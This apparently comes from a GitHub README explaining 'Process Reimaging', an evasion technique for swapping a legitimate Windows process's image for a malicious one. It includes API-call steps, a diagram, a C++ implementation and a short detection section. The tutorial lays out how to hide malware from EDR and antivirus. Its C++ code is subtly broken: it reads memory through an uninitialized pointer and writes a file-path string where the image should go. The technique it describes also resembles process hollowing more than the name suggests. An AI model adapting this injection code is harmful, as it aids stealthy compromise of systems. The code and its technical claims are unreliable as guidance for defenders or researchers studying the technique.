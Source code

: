 # Process Reimaging
***Process Reimaging** is an advanced technique used by attackers to replace a running process with a different executable while maintaining the original process’s **Process ID (PID)**, **handles**, and **security context**.
This allows malware to blend in with legitimate processes, bypassing security monitoring and maintaining persistence on a compromised system.*

*Unlike other injection techniques (e.g., **DLL Injection**, **APC Injection**, or **Process Hollowing**), Process Reimaging **completely replaces the image of a process in memory** while keeping its execution context unchanged.*

# Why Use Process Reimaging?

- **Bypass security defenses** – Keeps the original process name and handles, making it harder for EDR (Endpoint Detection & Response) to detect.
- **Avoid antivirus detection** – AV solutions often trust running processes; replacing one allows execution of malicious code under a trusted process.
- **Persistence & privilege retention** – The process remains active under the same user context, avoiding suspicion.
- **Evade forensic analysis** – Since the original process name and metadata remain intact, analysis tools may not detect the injected code.

# How Process Reimaging Works
### 1. Selecting a Target Process
*The attacker selects a running process to replace with a malicious image. Common targets include:*
- **Explorer.exe** (common and always running).
- **Svchost.exe** (Windows service host, often overlooked).
- **Msiexec.exe** (used for installations, less suspicious).

### 2. Suspending the Process
*To ensure a seamless replacement, the attacker suspends the target process using:*

```NtSuspendProcess(hProcess);```

### 3. Unmapping the Original Executable from Memory
*The memory space occupied by the original process is **deallocated** using ```ZwUnmapViewOfSection```, removing the original image:*

```ZwUnmapViewOfSection(hProcess, baseAddress);```

### 4. Writing the Malicious Image
*A malicious executable is mapped into the **now-empty memory space**, replacing the original process. This involves:*

- **Allocating new memory** (```VirtualAllocEx```).
- **Writing the new image** (```WriteProcessMemory```).
- **Fixing necessary imports and relocation tables** (if required).

### 5. Adjusting Process Context
*To avoid detection, the attacker **modifies key process structures** such as:*

- **PEB (Process Environment Block)** – Updates process metadata.
- **Thread Context** – Adjusts execution flow to point to the new executable’s entry point.

*This is done using:*

```SetThreadContext(hThread, &ctx);```

### 6. Resuming Execution
*Once everything is set, the attacker **resumes the process**, now executing the malicious code under the disguise of the original process:*

```NtResumeProcess(hProcess);```

# Diagram of Process Reimaging Attack
```
        ┌──────────────────────────┐
        │ Attacker                 │
        │ (Injects Malicious Code) │
        └───────┬──────────────────┘
                │
                ▼
        ┌────────────────────────────┐
        │ Target Process (Legit)     │
        │ [1] Suspend Process        │◄─── NtSuspendProcess()
        │ [2] Unmap Original Image   │◄─── ZwUnmapViewOfSection()
        │ [3] Allocate Memory        │◄─── VirtualAllocEx()
        │ [4] Inject Malicious Code  │◄─── WriteProcessMemory()
        │ [5] Modify Process Context │◄─── SetThreadContext()
        │ [6] Resume Execution       │◄─── NtResumeProcess()
        └────────────────────────────┘
```
## Process Reimaging in Action
*C++ Code for Process Reimaging*
```
#include <windows.h>
#include <tlhelp32.h>
#include <winternl.h>

typedef NTSTATUS(WINAPI* pNtSuspendProcess)(HANDLE);
typedef NTSTATUS(WINAPI* pNtResumeProcess)(HANDLE);
typedef NTSTATUS(WINAPI* pZwUnmapViewOfSection)(HANDLE, PVOID);

void ProcessReimaging(DWORD pid, LPCSTR maliciousExe) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // Suspend Process
    pNtSuspendProcess NtSuspendProcess = (pNtSuspendProcess)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtSuspendProcess");
    NtSuspendProcess(hProcess);

    // Get PEB and unmap section
    PVOID baseAddress;
    SIZE_T bytesRead;
    ReadProcessMemory(hProcess, (PBYTE*)baseAddress, &baseAddress, sizeof(PVOID), &bytesRead);
    
    pZwUnmapViewOfSection ZwUnmapViewOfSection = (pZwUnmapViewOfSection)GetProcAddress(GetModuleHandle("ntdll.dll"), "ZwUnmapViewOfSection");
    ZwUnmapViewOfSection(hProcess, baseAddress);

    // Allocate new memory and write malicious code
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, baseAddress, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, pRemoteMemory, maliciousExe, strlen(maliciousExe) + 1, NULL);

    // Resume Process
    pNtResumeProcess NtResumeProcess = (pNtResumeProcess)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtResumeProcess");
    NtResumeProcess(hProcess);

    CloseHandle(hProcess);
}
```

# Detection & Defense Against Process Reimaging
*Although Process Reimaging is stealthy, defensive measures exist:*
## Behavioral Monitoring

- Detecting **NtSuspendProcess()** calls followed by **ZwUnmapViewOfSection()**.
- Identifying processes that suddenly change their **memory image**.
- Monitoring **suspicious memory allocations** (e.g., ```VirtualAllocEx``` with ```PAGE_EXECUTE_READWRITE```).

## Process Protection Mechanisms

- Enabling **Windows Defender Attack Surface Reduction (ASR)** to block suspicious process manipulations.
- Implementing **Code Integrity Policies** to restrict execution of unauthorized binaries.

## Advanced Forensic Detection

- Comparing a process’s **original image on disk** vs. **its memory image**.
- Checking process metadata in the **PEB (Process Environment Block)** for inconsistencies.
- Using **YARA rules** to detect injected code patterns.
